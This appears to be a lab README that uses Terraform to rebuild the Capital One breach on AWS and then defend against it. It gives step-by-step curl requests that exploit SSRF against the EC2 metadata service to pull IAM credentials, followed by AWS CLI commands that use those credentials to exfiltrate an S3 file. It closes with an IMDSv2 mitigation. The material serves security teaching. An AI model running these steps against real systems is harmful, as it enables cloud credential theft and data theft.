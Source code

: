 # Capital One Breach - IaC
<i> We will use terraform `Infrastructure as a Code` tool to create the setup.  
The terraform file attached will help to create the required resources, AWS services and connectivity to reproduce the breach.
it is possible to `destroy` the stack when done and the created resources will be deleted</i>  

## Prerequisites  
- Modify or change inputs in the [main.tf](../main.tf) file with the relevant region, key_pairs, instance_profile
- Validate the `main.tf` file and check that the `terraform fmt, validate, plan` command has no errors.
- The script will create a new S3 bucket named `c-one-demo` and upload a "secret" file

## Demo Instruction

1. copy the `main.tf` file to your local dir and run: 
   ```$ terraform init 
      $ terraform fmt 
      $ terraform validate 
      $ terrafrom plan
   ```

2. If there are no errors, you can proceed to `terraform apply`   
   check that the resources successfully created.
   You should get the following outputs:  
   ```
   bucket_name = "c-one-demo"
   instance_id = "i-<instance_ID_number>"
   public_ip = "<public_ipv4>"
   ```  

3. At this point it is possible to run the HTTP request to pull out the metadata information:
   First check that the server respond to curl:
   ``` 
   $ curl http://<public_ipv4_address>/ 
   ```
4. Explore metadata vulnerability  
   Check for some of the metadata categories available:
   ```
   $ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
   ```
   The output should include all categories of information that the ec2 instance would be able to access.

5. Extract AWS credentials  
   By navigating through the API structure, we can eventually get to credentials. Paste each url into your browser to work through the API directory structure.  
   {Instance-Profile} - The instance profile name will be unique to each environment.  
   This will be the value listed under security-credentials - 2nd url below

    ```
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
    ```  

    ![](ssrf_1.png)  

6. Extract the VM AWS credentials  
   These are the credentials of the instance profile that is being used by the ec2 instance. By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  
   Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called c-demo.
   ```
   $ aws configure --profile c-demo
   ```  
   Add the `Token` by adding `aws_session_token` to your aws credential. By default, credential files are stored in the following places:  
   `Windows: C:\Users\username\.aws\credentials`
   `Linux: ~/.aws/credentials`
   
   Variables Required:  

   `aws_access_key_id = {AccessKeyId}`          - The Access key as found in the browser window.
   `aws_secret_access_key = {SecretAccessKey}`  - The Secret Access key, as shown in the browser
   `aws_session_token = {Token}`                - The Token value, as shown in the browser. 

  
7. Let's get it done!  
   At this point, you should be able to query caller identity API from your workstation.
   List the available s3 buckets:
   ```
   $ aws s3 ls --profile c-demo
   ```  

   Run the below command, substituting {bucket_name} for the name of the ec2-metadata bucket returned in the previous step.
   ```
   $ aws s3 ls {bucket_name} --profile ssrf-demo
   ```  
   There's another object in here, our `top_secret_file`  
   As an attacker, we might want to download this file. This process is called data exfiltration.

8. Exfiltrate the data!  
   Let's download the file locally and examine the contents
   ```
   $ aws s3 cp s3://{bucket_name}/top_secret_file ./ --profile c-demo
   ```
   
   Congratulations, you have just achieved your malicious objective!

## Mitigate the breach

Run a CLI command to force the ec2 instance to require a http token when issuing a command, by using IMDS v2.
You can use the ec2 `instance-id` provided by the terraform output.
```
$ aws ec2 modify-instance-metadata-options --instance-id "{INSTANCE_ID}" --http-tokens required --http-endpoint enabled 
```
The ec2 is still running, meaning that the response will return the State as Pending.
Run the same exploits against the web server:
```
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{name-of-your-instance-profile}
```  
At this point, webserver should not return any data for given urls, given the instance metadata service is blocking any request without the token.

9. Clean up.  
  Remove the created resource, ec2 and the S3 bucket:
  ```
  $ terraform destroy
  ```

## References:
1. https://blog.lightspin.io/tag/cloud-security
2. https://blog.appsecco.com/server-side-request-forgery-ssrf-and-aws-ec2-instances-after-instance-meta-data-service-version-38fc1ba1a28a
3. https://blog.gruntwork.io/how-to-create-reusable-infrastructure-with-terraform-modules-25526d65f73d
4. https://www.youtube.com/watch?v=tPQsI8n6er0

